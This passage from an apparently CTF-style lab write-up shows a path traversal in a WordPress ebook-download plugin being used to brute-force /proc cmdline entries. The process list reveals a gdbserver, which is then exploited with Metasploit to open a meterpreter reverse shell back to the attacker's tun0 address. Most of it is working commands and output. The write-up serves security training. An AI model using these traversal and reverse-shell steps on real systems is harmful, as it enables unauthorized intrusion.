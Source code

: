 The found credentials don't fit for anything though, log poisoning doesn't seem possible and we seem to not be able to read an id_rsa. The best shot seems to be the process running on port 1337. One option the get information about the process is to retrieve its `cmdline`. We can fuzz for all processes with a PID of < 5000 using a short bash script and curl.

```
$ for i in {1..5000}; do echo -n "$i: ";curl -s  "http://10.129.199.225/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/$i/cmdline" | sed 's/\(\(\.\.\/\)\{7\}proc\/[0-9]\+\/cmdline\)\{3\}//'| sed 's/<script>window.close()<\/script>/\n/g'; done | tee cmdline_brute
...[snip]...
1: /sbin/initautoautomatic-ubiquitynoprompt
```

After cleaning the list we see that `gdbserver` is running on 1337. (If you didn't find the process in the result you might have to increase the PID after verifying the port is open).

```
$ cat cmdline_brute  | grep -vae '[0-9]\+\: $' | tee processes
1: /sbin/initautoautomatic-ubiquitynoprompt
486: /lib/systemd/systemd-journald
513: /lib/systemd/systemd-udevd
...[snip]...
939: /usr/sbin/cron-f
940: /usr/sbin/CRON-f
941: /usr/sbin/CRON-f
947: /bin/sh-cwhile true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
949: /usr/sbin/atd-f
952: /bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
958: sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
976: /usr/sbin/apache2-kstart
977: /sbin/agetty-o-p -- \u--nocleartty1linux
984: /lib/systemd/systemd--user
985: (sd-pam)
989: /usr/sbin/mysqld
1000: SCREEN-dmSroot
1003: -/bin/bash
1006: /usr/sbin/mysqld
1007: /usr/sbin/mysqld
...[snip]...
```

## GDB server

To obtain a shell on `gdbserver`  metasploit is a quick option. We set the rhost, rport, tun0, payload and run the exploit, resulting in a reverse shell on the target as the user user.

```
$ sudo msfconsole
msf6 > use exploit/multi/gdb/gdb_server_exec
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set rhosts 10.129.199.225
rhosts => 10.129.199.225
msf6 exploit(multi/gdb/gdb_server_exec) > set lhost tun0
lhost => tun0
msf6 exploit(multi/gdb/gdb_server_exec) > set rport 1337
rport => 1337
msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 10.10.14.78:4444
[*] 10.129.199.225:1337 - Performing handshake with gdbserver...
[*] 10.129.199.225:1337 - Stepping program to find PC...
```